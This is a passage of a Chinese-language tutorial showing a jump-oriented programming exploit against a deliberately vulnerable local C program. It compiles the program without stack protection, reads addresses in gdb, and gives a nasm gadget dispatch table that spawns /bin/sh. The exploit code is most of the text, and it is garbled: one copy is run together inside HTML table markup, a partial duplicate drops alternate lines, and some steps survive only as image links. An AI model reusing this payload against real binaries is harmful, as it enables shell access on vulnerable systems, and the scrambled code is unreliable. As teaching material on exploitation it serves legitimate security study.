 [![](https://p0.ssl.qhimg.com/t01f24eca7072eb0d3e.png)](https://p0.ssl.qhimg.com/t01f24eca7072eb0d3e.png)

需要注意的只是它的前21行。

将vul.c编译为可执行文件
<td valign="top" width="568">gcc -g -fno-stack-protector -o vul vul.c</td>

用gdb查看各地址[![](https://p1.ssl.qhimg.com/t0127ba57bbc08feae9.png)](https://p1.ssl.qhimg.com/t0127ba57bbc08feae9.png)

填入exploit.nasm
<td style="width: 426.1pt; border: solid windowtext 1.0pt; padding: 0cm 5.4pt 0cm 5.4pt;" valign="top" width="568">start:; Constants:base:                    equ 0xbfffef40           ; Address where this buffer is loaded under gdbdispatcher:          equ 0x08048449        ; Address of the dispatcher gadgetinitializer             equ dispatcher+5       ; Address of initializer gadgetto_executable:           equ 0x08048590        ; Points to the string “/bin/sh”to_null:         equ 0x08048599        ; Points to a null dword (0x00000000)buffer_length:            equ 0x100           ; Target program’s buffer size. ; The dispatch table is below (in reverse order)g0a: dd dispatcher+52                    ; int 0x80g09: dd dispatcher+43                   ; mov eax, [esi+0xc]          ; mov [esp], eax  ; call [esi+0x4]g08: dd dispatcher+37                   ; xchg ecx, eax          ; fdiv st, st(3)      ; jmp [esi-0xf]g07: dd dispatcher+33                   ; popa                         ; cmc                   ; jmp [ecx]g06: dd dispatcher+19                   ; mov [ebx-0x17bc0000], ah   ; stc               ; jmp [edx]g05: dd dispatcher+28                   ; inc ebx               ; fdivr st(1), st     ; jmp [edx]g04: dd dispatcher+19                   ; mov [ebx-0x17bc0000], ah   ; stc               ; jmp [edx]g03: dd dispatcher+28                   ; inc ebx               ; fdivr st(1), st     ; jmp [edx]g02: dd dispatcher+19                   ; mov [ebx-0x17bc0000], ah   ; stc               ; jmp [edx]g01: dd dispatcher+14                  ; inc eax               ; fdivr st(1), st     ; jmp [edx]g00: dd dispatcher+9                     ; popa                         ; fdivr st(1), st     ; jmp [edx]</td>

; Constants:

dispatcher:          equ 0x08048449        ; Address of the dispatcher gadget

to_executable:           equ 0x08048590        ; Points to the string “/bin/sh”

buffer_length:            equ 0x100           ; Target program’s buffer size.

; The dispatch table is below (in reverse order)

g09: dd dispatcher+43                   ; mov eax, [esi+0xc]          ; mov [esp], eax  ; call [esi+0x4]

g07: dd dispatcher+33                   ; popa                         ; cmc                   ; jmp [ecx]

g05: dd dispatcher+28                   ; inc ebx               ; fdivr st(1), st     ; jmp [edx]

g03: dd dispatcher+28                   ; inc ebx               ; fdivr st(1), st     ; jmp [edx]

g01: dd dispatcher+14                  ; inc eax               ; fdivr st(1), st     ; jmp [edx]

生成exploit[![](https://p0.ssl.qhimg.com/t014144799235499df1.png)](https://p0.ssl.qhimg.com/t014144799235499df1.png)

gdb下运行vul，执行/bin/sh[![](https://p1.ssl.qhimg.com/t01aa37853244f164aa.png)](https://p1.ssl.qhimg.com/t01aa37853244f164aa.png)
